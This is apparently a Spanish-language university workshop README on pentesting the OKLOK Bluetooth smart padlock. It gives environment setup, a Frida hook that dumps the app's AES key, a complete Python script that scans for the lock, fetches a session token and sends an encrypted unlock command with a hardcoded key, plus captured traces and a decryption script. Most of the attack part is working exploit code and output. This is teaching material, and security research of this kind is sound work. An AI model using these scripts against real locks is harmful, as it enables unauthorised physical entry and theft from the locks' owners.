

# Pentest candado Bluetooth OKLOK

El objetivo de este Test de Penetración (Pentest) consiste en ver si somos capaces de **encontrar la clave de desbloqueo** de un candado inteligente para poder **abrirlo** mediante conexión **bluetooth** sin permiso del usuario.


<p align="center">

</p>

El candado objetivo, modelo **OKLOK Padlock**, es un candado que se puede desbloquear mediante huella digital y usando una [App Android](https://play.google.com/store/apps/details?id=com.oklok.lock&hl=en&gl=US) diseñada para tal efecto. 

Las versiones antiguas del candado tienen una vulnerabilidad conocida y documentada ([TFM Jesus Alberto Tejedor Doria, 2020](https://eprints.ucm.es/62476/1/JESUS_ALBERTO_TEJEDOR_DORIA_Entrega_Final_TFM_Pentesting_Device_IoT_Smart_Doorlock_4286353_1929042718.pdf), basado en [Attify Pentest kit](https://www.attify.com/iot-security-pentesting)) que permitía **averiguar la clave** de desbloqueo de una manera relativamente sencilla. Sin embargo, el fabricante ha **actualizado la aplicación de Android**, complicando la obtención de dicha clave.

El objetivo de este taller consiste en ser capaces de encontrar la clave de acceso mediante el estudio e instrumentación de la nueva aplicación. Para ello os explicaré cómo se conseguía la clave usando la aplicación antigua ([M-IoT S&L P2: Pentest_Lock](Pentest_Lock.pdf)), con la esperanza de que algún hacker sea capaz de obtener claves nuevas de los candados que tenemos en la FDI y así poder volver a utilizar la práctica dentro de la asignatura Seguridad y Legalidad del Máster de IoT. 

Existe otro agujero de seguridad documentado que puede resultar de utilidad: 

* [Transfer ownership of any FB50 smart lock to yourself (CVE-2019-13143)](https://github.com/securelayer7/pwnfb50)
* [FB50 Smart Lock Vulnerability Disclosure (CVE-2019-13143)](https://blog.securelayer7.net/fb50-smart-lock-vulnerability-disclosure/)
* [Picking the FB50 smart lock (CVE-2019-13143)](https://icyphox.sh/blog/fb50/)

**Contacto:** [recas@ucm.es](mailto:recas@ucm.es)

# Material necesario

Para intentar replicar el hack necesitaremos un ordenador con Linux instalado y un dispositivo Android *rooteado*. Para facilitar la tarea os dejo una imagen de una máquina virtual de **Ubuntu Mate** y una imagen de **Android para Raspberry Pi 4**.

## Ubuntu Mate 18.04 64b

En este enlace  [Ubuntu Mate 18.04.1 64b](https://drive.google.com/file/d/1eo9bX2aVQekpQcAm2UmuF1QA5-_ZrvyT/view?usp=share_link) os dejo una MV preparada con todo lo que listo a continuación. Aquí podéis bajaros la versión para [Raspberry Pi 4](https://drive.google.com/file/d/1ymjP3LdZvsp1xyZh2556bu_nhEVnQjKm/view?usp=share_link). Para poder descargar el fichero deberéis de estar **identificados** con la cuenta de correo de la **UCM**.

- Usuario/contraseña: `master_iot`/`SyL`

- Paquetes instalados sobre la versión *stock*:

```bash
sudo apt-get install ubertooth
sudo apt-get install python-pip libglib2.0-dev python-dev
sudo pip install bluepy
sudo pip install pycrypto
sudo pip install pyaes
sudo apt install aapt
sudo apt install apktool
sudo apt install zipalign
sudo apt install python3-pip
sudo pip3 install objection
sudo apt install adb 
sudo apt install default-jdk
```

* Acceso a unidades compartidas con el Host:

```bash
sudo adduser masteriot vboxsf
```

* La versión de `apk-tool` del repositorio (*v.v2.4.0-dirty*) no parece valerle a `objection`: **Error** *apktool version should be at least 2.4.1*.
  Copiamos [apk-tool v2.4.1](https://ibotpeaches.github.io/Apktool/install/) en `~/bin` y mantenemos el paquete, ya que instala algo necesario (no he localizado el qué).

* [*Wireshark* actualizado](https://launchpad.net/~wireshark-dev/+archive/ubuntu/stable) y sin privilegios (requiere `logout`). Wireshark permite monitorizar la red del Host si se configura en modo `bridged` y con la configuración `Promiscuous mode: Allow all.`

```bash
sudo add-apt-repository ppa:wireshark-dev/stable
sudo apt-get update
sudo apt-get install wireshark
sudo dpkg-reconfigure wireshark-common
sudo addgroup masteriot wireshark
```

* [Bettercap](https://www.bettercap.org/):
    - Descargar y copiar el binario precompilado en `/sbin/`, necesita librerías
* [Jadx](https://github.com/skylot/jadx):
    - Descargar y copiar en `/opt/jadx-1.1.0`
    - **Nota:** este programa consume muchos recursos, asignar 4GiB y 2 CPUs en la MV

```bash
sudo apt-get install libpcap-dev libnetfilter-queue-dev
```

## Raspberry Pi Android 9 (LineageOS 16.0)

* Enlace a la imagen original [LineageOS 16.0](https://drive.google.com/file/d/1FepSgPTNmIe9RXJRf8kPZBdfw4rda9RY/view?usp=share_link). Para poder descargar el fichero deberéis de estar **identificados** con la cuenta de correo de la **UCM**.
* Manual: [LineageOS 16.0 (Android 9)](https://konstakang.com/devices/rpi3/LineageOS16.0/)
* Necesario conectar un monitor HDMI sin adaptador, o configurar a mano la resolución según manual.
* Pasos del manual necesarios:
    * Habilitar opciones de desarrollador
    * Habilitar acceso de *root*
* Otras consideraciones:
    * Botón de apagado: F5
    * Es necesario activar *adb* por red
    * Habilitar log bluetooth
* Servidor frida:  [frida-server-14.2.8-android-arm](frida-server-14.2.8-android-arm) 

## Apks y utilidades

### Android Apk

Os dejo dos versiones antiguas de la **App Oklok** que no están muy ofuscadas:

*  [oklok_v1.3.0.apk](oklok_v1.3.0.apk) 
*  [oklok_v1.5.7.apk](oklok_v1.5.7.apk) 

### Script Frida

Script para **conseguir la clave** mediante Frida:

```java
Java.perform(function () 
{
    var CMDUtils = Java.use('com.coolu.blelibrary.utils.CMDUtils');

    var log_byte_array = function (arr) {
        var result = "";
        var buffer = Java.array('byte', arr);
        for(var i = 0; i < buffer.length; ++i)  {
            var hexb = (buffer[i] & 0xFF).toString(16);
            if (hexb.length == 1) hexb = '0' + hexb;
            result += hexb;
        }
        console.log(result);
    };

    CMDUtils.Encrypt.implementation = function (pt, key) {
        console.log('[+] Inside Encrypt()  ======');
        var ct = this.Encrypt(pt, key);
        console.log('Pt:')
        log_byte_array(pt)
        console.log('key:')
        log_byte_array(key);
        return ct;
    };

    CMDUtils.Decrypt.implementation = function (ct, key) {
        console.log('[+] Inside Decrypt()  ======');
        var pt = this.Decrypt(ct, key);
        console.log('Pt:')
        log_byte_array(pt)
        console.log('Key:')
        log_byte_array(key);
        return pt;
    };
});
```

### Script de apertura

Script **Python 2** para abrir el candado (una vez que **conocemos la clave AES**):

```python
from bluepy.btle import Scanner, Peripheral, DefaultDelegate
from Crypto.Cipher import AES

AESKEY = '034100624f0a29355c193f1a39192356'
           
class MyDelegate(DefaultDelegate):
    def __init__(self):
        DefaultDelegate.__init__(self)
        self.token = None
    def handleNotification(self, cHandle, data):
        cipher = AES.new(AESKEY.decode('hex'), AES.MODE_ECB)
        pt = cipher.decrypt(data)
        
        if pt.startswith('\x06\x02\x07'):
            self.token = pt[3:7]
            print '[+] Token:', self.token.encode('hex')
def connect(addr):
    print '[+] Connecting'
    p = Peripheral(addr)

    write_char = p.getCharacteristics(uuid='000036f5-0000-1000-8000-00805f9b34fb')[0]
    notify_char = p.getCharacteristics(uuid='000036f6-0000-1000-8000-00805f9b34fb')[0]  

    # Enable notifications, https://stackoverflow.com/a/15722811
    p.writeCharacteristic(7, '0100'.decode('hex'), withResponse=True)

    d = MyDelegate()
    p.withDelegate(d)

    gettokencmd = '06010101' + '0'*24
    gettokstr = AES.new(AESKEY.decode('hex'), AES.MODE_ECB).encrypt(gettokencmd.decode('hex'))
    
    print '[+] Sending GET_TOKEN command'
    write_char.write(gettokstr, withResponse=True)
    
    p.waitForNotifications(2)

    if d.token != None:
        cipher = AES.new(AESKEY.decode('hex'), AES.MODE_ECB)
    
        # Send unlock command
        pt = '050106303030303030'.decode('hex') + d.token + '\x00\x00\x00'      
        write_char.write(cipher.encrypt(pt))
        print '[+] Sent unlock command'
def main():
    s = Scanner()
    print '[+] Scanning for 5s...'
    s.scan(5)

    for dev in s.getDevices():  
        if dev.getValueText(0x9) == 'BlueFPL':
            print '[+] Found OKLOK'
            connect(dev.addr)
            break            
if __name__ == '__main__':
    main()
```

### Análisis de tráfico BT de una secuencia de apertura

Ejemplo de captura y análisis de tráfico mediante Wireshark:  [btsnoop_hci.log](btsnoop_hci.log) 

Salida de Frida por pantalla:

```bash
$ frida -U -l oklok-frida_new.js com.oklok.y
     ____
    / _  |   Frida 14.2.8 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://www.frida.re/docs/home/
                                                                                
[VirtualBox::com.oklok.y]->
[VirtualBox::com.oklok.y]-> 
[+] Inside Encrypt()  ======
Pt:
060101015705162b7c5b34162b4b4b2e    -->  Traza Nº 101
key:
034100624f0a29355c193f1a39192356
[+] Inside Encrypt()  ======
Pt:
0602077464a8bd010205000000000000    -->  Traza Nº 103
Key:
034100624f0a29355c193f1a39192356
[+] Inside Decrypt()  ======
Pt:
06010101644c391e5b6a4f3237477a78    -->  Traza Nº 105
key:
034100624f0a29355c193f1a39192356
[+] Inside Decrypt()  ======
Pt:
0602077464a8bd010205000000000000    -->  Traza Nº 107
Key:
034100624f0a29355c193f1a39192356
[+] Inside Encrypt()  ======
Pt:
020101017464a8bd2f22114d0c157e65    -->  Traza Nº 109
key:
034100624f0a29355c193f1a39192356
[+] Inside Decrypt()  ======
Pt:
0202015e64a8bd010205000000000000    -->  Traza Nº 112
Key:
034100624f0a29355c193f1a39192356
[+] Inside Encrypt()  ======
Pt:
0501063030303030307464a8bd1f0375    -->  Traza Nº 113
key:
034100624f0a29355c193f1a39192356
[+] Inside Decrypt()  ======
Pt:
0502010064a8bd010205000000000000    -->  Traza Nº 121
Key:
034100624f0a29355c193f1a39192356
[+] Inside Decrypt()  ======
Pt:
050d010064a8bd010205000000000000    -->  Traza Nº 123
Key:
034100624f0a29355c193f1a39192356
Process terminated
[VirtualBox::com.oklok.y]->

```

Script de Python 2 análisis de trazas:

```python
#!/usr/bin/python2.7

from Crypto.Cipher import AES
import binascii

aeskey="034100624f0a29355c193f1a39192356"
aesobj = AES.new(aeskey.decode("hex"), AES.MODE_ECB)

wiresharkpacket = "64642f5d28a845260d9c3b7464d1003f"
print "Traza 101: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))

wiresharkpacket = "b7375edcb4311b888c78b794fa828853"
print "Traza 103: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))

wiresharkpacket = "d349035cb778578f78761a9b6b2344fd"
print "Traza 105: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))

wiresharkpacket = "b7375edcb4311b888c78b794fa828853"
print "Traza 107: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))

wiresharkpacket = "e2608fd9ec82d3f082962256188ca320"
print "Traza 109: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))

wiresharkpacket = "7c961523beeabc82b97305e1facb1d41"
print "Traza 112: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))

wiresharkpacket = "62a0972768b33fbe2fb95456c36b9bf6"
print "Traza 113: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))

wiresharkpacket = "71dda074a979da25e1b51f51d8689a72"
print "Traza 121: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))

wiresharkpacket = "e8a8855bb311de5ad1d12e79a5206d89"
print "Traza 123: " + str(aesobj.decrypt(wiresharkpacket.decode("hex")).encode('hex'))
```


